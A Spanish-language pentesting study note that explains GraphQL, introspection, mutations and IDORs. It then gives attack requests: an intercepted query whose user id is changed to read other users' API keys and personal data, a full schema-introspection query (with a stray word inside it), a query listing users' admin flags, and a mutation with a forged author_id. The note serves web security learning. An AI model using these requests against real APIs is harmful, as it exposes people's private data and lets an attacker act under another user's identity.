 ----
- Tags: #basico #teoria #practica #ataques 
----

# ¿ Que es **GraphQL** ? 

**GraphQL** es un lenguaje de consultas para **APIs (Application Programming Interfaces)** que se ha vuelto cada vez más popular en los últimos años. A diferencia de las APIs tradicionales que tiene endpoints fijos, GraphQL permite a los clientes solicitar sólo la información que necesita y obtener una respuesta personalizada en función de sus necesidades. 

----

# ¿ Que es **Introspection** ? 

**Introspection** en GraphQL es un mecanismo que permite a los clientes **obtener información** sobre el esquema GraphQL de una API. Esto significa que los clientes pueden explorar y descubrir los tipos de datos, los campos y las relaciones que existen en la API, lo que puede ser muy útil para los desarrolladores que necesitan construir clientes GraphQL. Sin embargo, la introspección también puede ser utilizada por los atacantes para obtener información sensible sobre la estructura y los datos que existen en la API, lo que puede ser utilizado para llevar a cabo ataques más sofisticados. 

----

# ¿ Que son las **Mutations** ? 

Las **Mutations** en GraphQL son operaciones que permiten a los clientes **modificar los datos** en la API. A diferencia de las consultas, que sólo permiten la lectura de los datos, las mutaciones permiten a los clientes agregar, actualizar o eliminar datos .Esto significa que las mutaciones tiene el potencial de ser utilizadas para realizar cambios importantes en la base de datos subyacente de la API. Si no se protegen adecuadamente, las mutaciones pueden ser explotadas por los atacantes para realizar cambios malintencionados en la API, como la eliminación de datos importantes o la creación de nuevos registros. 

----

# ¿ Que son los **IDORs** en GraphQL ? 

En el contexto de GraphQL, los [[IDORs - ( Insecure Direct Object Reference )]] pueden ocurrir cuando un atacantes es capaz de adivinar o enumerar identificadores (**IDs**) de objetos dentro de la API, y puede utilizar esos IDs para acceder a objetos a los que no debería tener acceso. Esto puede ocurrir porque los desarrolladores de la API pueden no haber implementado adecuadamente los mecanismos de autenticación y autorización en su API. 

---- 

# Explotación 

- ## IDORs: 

Por ejemplo a la hora de explotar un [[IDORs - ( Insecure Direct Object Reference )]] en el contexto de GraphQL, se puede dar debido a una mala configuración de los desarrolladores permitiendo a un usuario enumerar información privada de otros usuarios, por ejemplo...

Nos encontramos en una aplicación en donde con una de las [[⚒ Herramientas ⚒]] de enumeración como **gobuster** encontramos una ruta, supongamos que */settings*, en esta lo que vemos es información de nuestra cuenta ( Estando logueados como un usuario ). Si interceptamos esta petición con [[Burpsuite]] veremos que se tramita una petición de tipo POST a una API de GraphQL en donde por body se envía algo tal que así: 

```json
{"query":"{ UserInfo (id: 43) {\n          \t\t\t\tapi_key\n          \t\t\t\tname\n          \t\t\t\tsurname\n          \t\t\t\tdate_of_birth\n        \t\t\t\t}\n      \t\t\t}\n        \t\t\t\t"}
```

Por lo que deducimos que se esta solicitando los campos **api_key, name, surname y date_of_birth** del user donde el **id** es **43**, por lo que este ID haría referencia a nuestro ID de usuario, por lo que si cambiamos dicho ID por el **1** u otros y recibo los datos de vuelta, estaríamos explotando un [[IDORs - ( Insecure Direct Object Reference )]] ya que como un usuario no debería poder tener acceso a datos personales de un usuario ajeno. 

----

- ## Introspection: 

En la **introspection** como mencionamos anteriormente, podemos **obtener información** acerca de la base de datos mediante peticiones de GraphQL, por lo que si viéramos como en el caso anterior, una petición que se lanza hacía una ruta **/graphql**, ya que esto no deja de ser una API podríamos ver si tenemos la posibilidad de ingresar a esta ruta para interactuar con el apartado de búsqueda de GraphQL: 

![[graphql.png]]

En donde, si hiciéramos uso de páginas como [Hack Tricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) podríamos obtener querys para enumerar toda la información acerca de la base da datos  (Tablas, campos, etc) como la siguiente query: 

```json
fragment FullType on __Type {
  kind
  name
  description
  fields {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues {
    name
    description
  }
  possibleTypes {
    ...TypeRef
  }
}

fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }hicieramos
      }
    }
  }
}

query IntrospectionQuery {
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    types {
      ...FullType
    }
    directives {
      name
      description
      locations
      args {
        ...InputValue
      }
    }
  }
}
```

#### PD: Esta query suele estar mal en **Hack Tricks** por lo que hay que modificar agregando __ en los apartados de **Type, InputValue y schema**. 

Una vez tengamos la respuesta de GraphQL con toda la información acerca de las base de datos, simplemente deberíamos copiar dicha información devuelta, para pasarla a un [proyecto de GitHub](https://github.com/graphql-kit/graphql-voyager) (El cual tiene [Live Mode](https://graphql-kit.com/graphql-voyager/)) donde podríamos ver de una manera más visual la administración de la/s base de dato/s: 

![[LiveMode_graphql-kit.png]]

Una vez entendida la administración de la/s base/s de dato/s, podríamos realizar peticiones más especificas para enumerar información sensible de usuarios, obtener contraseñas, ID's , etc. 

```json
# Si me interesara ver el ID, username y si es administrador en base al ejemplo anterior dado: 
{"query":"{Users{id, username, isAdmin}}"}
```

----

- ## Mutation: 

Por ultimo, como vimos, las **mutations** son interacciones con GraphQL que permiten al usuario modificar, agregar o eliminar datos, por ejemplo, si siguiendo el ejemplo dado tuviéramos un botón de crear post, en donde podríamos crear un "post" con un titulo, mensaje, etc. si lo interceptáramos con [[Burpsuite]] veríamos algo como lo siguiente: 

```json
{
	"query":"mutation { createPost(title: \"I'm the best hacker in this fucking life\", body: \"Bye\", author_id: 1) { id, title, body, author_id }}"
}
```

Podríamos probar alterar, en este caso, el ID para intentar crear un nuevo post como otro usuario, de esta manera estaríamos abusando de **mutations** para realizar acciones que no deberían estar permitidas. 